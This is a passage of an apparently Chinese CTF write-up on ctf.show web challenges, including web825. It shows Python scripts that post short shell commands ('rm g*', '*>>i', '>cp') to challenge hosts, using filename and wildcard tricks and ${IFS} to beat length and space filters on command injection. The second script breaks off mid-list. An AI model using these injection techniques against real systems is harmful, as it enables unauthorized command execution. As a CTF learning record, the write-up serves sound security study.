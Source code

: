 payload:

```php
import  requests
import time
url="http://b3007df8-eb78-4d71-b13f-d0c3e5b8f2dd.challenge.ctf.show/"

payload=[
">grep",
">h",
"*>j",
"rm g*",
"rm h*",
">cat",
"*>>i",
"rm c*",
"rm j",
">cp",
"*"
]

def write():
    for p in payload:
        data={
            'cmd':p.strip()
        }
        requests.post(url=url,data=data)
        print("[*]create"+p.strip())
        time.sleep(1)
def main():
    write()
    read()
if __name__=='__main__':
    main()
```

利用grep来构造，最终调用index.php的命令

![image-20220705161343317](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220705161343317.png)



##  web825

考点：利用dir命令，空格需要换出`${IFS}`

构造原理类似

直接给本子

```python
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-05-06 13:25:41
# @Last Modified by:   h1xa
# @Last Modified time: 2022-05-10 20:55:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


import requests
import time

url = "http://eb893c73-86c3-449f-98fe-0f82d9212110.challenge.ctf.show/"

payload = [
'>sl',
```